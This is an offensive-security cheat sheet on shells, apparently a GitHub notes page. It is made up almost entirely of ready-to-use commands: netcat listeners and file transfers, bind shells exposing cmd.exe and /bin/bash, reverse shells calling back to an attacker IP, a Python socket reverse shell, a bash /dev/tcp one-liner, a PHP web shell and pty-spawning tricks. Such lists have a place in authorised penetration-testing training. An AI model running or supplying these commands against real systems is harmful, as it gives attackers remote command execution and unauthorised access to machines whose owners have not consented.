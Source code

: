 **Shells**



```
# NETCAT - Install
sudo apt update && sudo apt install -y netcat
# or upload the nc.exe on the target machine

nc <TARGET_IP> <TARGET_PORT>
nc -nv <TARGET_IP> <TARGET_PORT>
nc -nvu <TARGET_IP> <TARGET_UDP_PORT>

## NC Listener
nc -nvlp <LOCAL_PORT>
nc -nvlup <LOCAL_UDP_PORT>

## Transfer files
# Target machine
nc.exe -nvlp <PORT> > test.txt
# Attacker machine
echo "Hello target" > test.txt
nc -nv <TARGET_IP> <TARGET_PORT> < test.txt
```

```
# BIND SHELL

## Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp <PORT> -e cmd.exe
## Attacker Linux machine
nc -nv <TARGET_IP> <PORT>

## Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp <PORT> -c /bin/bash
## Attacker Win machine
nc.exe -nv <TARGET_IP> <TARGET_PORT>
```

```
# REVERSE SHELL

## Attacker Linux machine
nc -nvlp <PORT>
## Target Win machine
nc.exe -nv <ATTACKER_IP> <ATTACKER_PORT> -e cmd.exe

## Attacker Linux machine
nc -nvlp <PORT>
## Target Linux machine
nc -nv <ATTACKER_IP> <ATTACKER_PORT> -e /bin/bash
```

```
# Spawn shells
python -c 'import pty; pty.spawn("/bin/sh")'
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TARGET_IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
echo os.system('/bin/bash')
/bin/sh -i
bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1'"); ?>
/usr/bin/script -qc /bin/bash /dev/null
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```